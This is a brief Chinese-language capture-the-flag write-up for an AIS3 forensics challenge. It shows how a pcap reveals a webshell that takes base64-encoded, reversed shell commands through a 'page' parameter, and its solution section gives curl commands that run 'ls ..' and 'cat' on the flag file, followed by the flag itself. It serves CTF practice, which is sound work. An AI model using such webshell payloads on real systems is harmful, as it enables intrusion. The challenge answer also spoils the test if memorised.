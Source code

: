 # MISC - [震撼彈] AIS3 官網疑遭駭
## 題目理解
給了一個 pcap，直接開 wireshark，看題目名字就知道要找 http，每個送的 host 都一樣

## 觀察
每個網址都帶一個 page 參數，後面接著 ls . 的 base64，只有一個是 . sl 的 base64，而且也只有它是用 firefox 瀏覽，其他都是 curl

不過直接連 ip:8100 會是一個什麼都沒有的 nginx，掃目錄、做各種滲透測試、弱點分析都找不到東西

所以就掉進一個花我非常久時間的坑，那個 magic.ais3.org 本來以為已經沒了，沒想到是要用 domain 才能瀏覽，所以就改個 /etc/hosts 就可以得到 webshell 了

## 解法
```
echo "ls .." | base64 | rev
curl magic.ais3.org:8100/Index.php?page=K4iLgMHb

echo "cat ../flag_c603222fc7a23ee4ae2d59c8eb2ba84d" | base64 | rev
curl magic.ais3.org:8100/Index.php?page=KQGN4EmYyIWZ4MWO1QmMlFGNlV2MyE2NjZmMyIzMwYzYfdWYsZ2Lu4CI0F2
```

* flag: `AIS3{0h!Why_do_U_kn0w_this_sh3ll1!1l!}`
